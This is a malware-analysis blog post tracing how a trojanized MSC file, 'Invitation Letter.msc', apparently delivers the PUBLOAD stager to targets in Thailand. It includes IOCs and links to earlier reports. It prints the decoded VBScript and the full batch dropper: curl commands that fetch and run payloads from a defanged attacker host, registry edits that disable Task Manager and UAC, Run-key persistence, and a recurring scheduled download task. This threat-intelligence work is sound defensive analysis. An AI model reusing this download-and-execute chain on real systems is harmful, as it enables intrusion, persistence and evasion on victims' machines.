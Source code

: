 ```yaml
---
title: PUBLOAD Likely Delivered to Thailand via GrimResource MSC
by: dmpdump
tags: malware RE CTI
---
```


On December 20, 2024, a Microsoft Management Console (MSC) file named "Invitation Letter.msc" was uploaded from Thailand to VirusTotal.

* File name: Invitation Letter.msc
* Hash: 5b18f8b379cb32945ef7722b7ec175f5d24e7c468f6f5d593c51610f6b87f21f

![sshot](/assets/images/PUBLOAD_Thai/vt_upload.png) 

I have been tracking the use of trojanized MSC files since ~ early 2024, which increased temporarily after Elastic published their [GrimResource -  Microsoft Management Console for initial access and evasion](https://www.elastic.co/security-labs/grimresource) article.

Invitation Letter.msc implements a curl download for a batch file using the GrimResource technique.

![sshot](/assets/images/PUBLOAD_Thai/grimres.png) 

The URL-decoded script shows the batch file download and execution:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
	<![CDATA[
Set wshshell = CreateObject("WScript.Shell")
Wshshell.run "cmd.exe /c conhost.exe --headless --width 20 --height 30 curl -s --progress-bar --retry 98 -C - --output C:\Users\Public\jisu.bat http://185[.]62.57.118/jisu.RAR & C:\Users\Public\jisu.bat"
]]></ms:script>
</stylesheet>
```
Jisu.bat performs the following actions:
* It disables the Task Manager via a registry change (setting DisableTaskMgr to 1)
* It modifies the EnableLUA value in the System Policies, setting it to 0. This disables UAC notifications (UAC was formerly known as LUA)
* It establishes persistence for jisucommon.exe via the registry run key
* It creates a scheduled task named Office_Settings to download and execute jisu.bat every 6 minutes
* It downloads jisucommon.exe and FileAssociation.dll to the Public folder
* It runs jisucommon.exe

```batch
@echo off
start /min
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskmgr /t REG_DWORD /d 1 /f
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v jisucommon /t reg_sz /d C:\Users\Public\jisucommon.exe /f
schtasks /Create /F /TN Office_settings /SC minute /MO 6 /TR "cmd.exe /c curl -s --retry 99 -C - --output C:\Users\Public\jisu.bat http://185[.]62.57.118/jisu.RAR & C:\Users\Public\jisu.bat"
curl -s --retry 99 -C - --output C:\Users\Public\jisucommon.exe http://185[.]62.57.118/jisucommon.rar
curl -s --retry 99 -C - --output C:\Users\Public\FileAssociation.dll http://185[.]62.57.118/FileAssociation.rar
cd C:\Users\Public\
jisucommon.exe
exit
```
Jisucommon.exe is a legitimate executable associated with Jisu Office, a legitimate application that seems to offer file converters. The threat actor used this legitimate application for DLL hijacking purposes, loading a malicious FileAssociation.dll, which is dynamically loaded by jisucommon.exe

![sshot](/assets/images/PUBLOAD_Thai/jisucommon.png) 
![sshot](/assets/images/PUBLOAD_Thai/fileassocload.png) 

FileAssociation.dll has a PDB path with a tone of humor, as it has been referenced in previous reports. The username associated with the project is 'FBI'.
![sshot](/assets/images/PUBLOAD_Thai/pdb.png)

The legitimate executable and the trojanized DLL are copied to ProgramData for persistence.
![sshot](/assets/images/PUBLOAD_Thai/copiedfiles.png)

Two types of persistence are implemented: A scheduled task, and via the registry run key.

<u>Registry run key in HKLM and HKCU:</u>

![sshot](/assets/images/PUBLOAD_Thai/regpersist.png)

<u>Scheduled Task:</u>

![sshot](/assets/images/PUBLOAD_Thai/schtaskpersist.png)

The DLL decrypts an embedded shellcode and loads it via a callback function, using EnumPropsExW().

![sshot](/assets/images/PUBLOAD_Thai/scdecryptexec.png)

The decrypted shellcode is a PUBLOAD stager, previously reported by [Cisco](https://blog.talosintelligence.com/mustang-panda-targets-europe/) and [TrendMicro](https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html). The shellcode implements a common API hashing algorithm using ROR13. The following APIs are resolved via the hashing algorithm:

![sshot](/assets/images/PUBLOAD_Thai/loadlibgetproc.png)
![sshot](/assets/images/PUBLOAD_Thai/resapis.png)

The shellcode establishes a socket connection to 45.150.128\[.\]212:443, and it's able to receive and execute additional shellcodes. The information harvested and sent to the C2 (volume serial number, computer name, username, uptime) is encrypted with the same RC4 key reported by Cisco and Trend Micro.
![sshot](/assets/images/PUBLOAD_Thai/rc4key.png)


# IOCs
* Invitation Letter.msc: 5b18f8b379cb32945ef7722b7ec175f5d24e7c468f6f5d593c51610f6b87f21f
* Initial payload delivery: 185\[.\]62.57.118
* jisu.bat: 51a180669443596d313f27f9d4a59eff8b79856d9656828935b55cfcd2e234de
* jisucommon.exe: 381b0dac4c410ebaa37ee1172461a84bea87e9b0c32648556f42b9d510afe8cd
* FileAssociation.dll: d0cf78977f2b744ae3fd88da6532c3ff08af2961f553a7469e7416445d4f4432 
* C2: 45.150.128\[.\]212:443

# Previous reports
* [https://blog.talosintelligence.com/mustang-panda-targets-europe/](https://blog.talosintelligence.com/mustang-panda-targets-europe/)
* [https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html](https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html)
* [https://www.elastic.co/security-labs/grimresource](https://www.elastic.co/security-labs/grimresource)
